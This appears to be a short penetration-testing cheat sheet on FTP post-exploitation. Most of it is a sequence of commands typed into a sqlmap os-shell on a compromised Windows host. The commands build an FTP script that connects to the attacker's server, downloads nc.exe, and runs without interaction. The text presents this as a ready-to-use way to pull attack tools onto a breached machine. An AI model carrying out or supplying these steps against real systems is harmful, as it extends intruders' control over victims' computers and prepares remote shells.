 # FTP Post Exploitation Techniques
This module will contain all FTP-related tasks used during post-exploitation.
## Create an FTP Script
This is a script to run as you call FTP from the shell. This is best for non-interactive shells, such as the `os-shell>` provided by `sqlmap` or a PHP shell provided by an SQL Injection exploit. The following example is done from the `--os-shell` provided by `sqlmap`. 

`os-shell> echo open (YOUR IP) 21> C:\share\ftp.txt` *(Writeable Directory on target)*

`os-shell> echo USER pwnt>> C:\share\ftp.txt` 

`os-shell> echo passwd>> C:\share\ftp.txt` *(Password for your FTP Server)*

`os-shell> echo bin>> C:\share\ftp.txt` *(Sets transfer up for binary files/bytes)* 

`os-shell> echo GET nc.exe>> C:\share\ftp.txt` 

`os-shell> echo bye>> C:\share\ftp.txt` 

Then, we can run the script with:

`os-shell> ftp -v -n -s:C:\share\ftp.txt` *(PATH to your Script on Target)* 
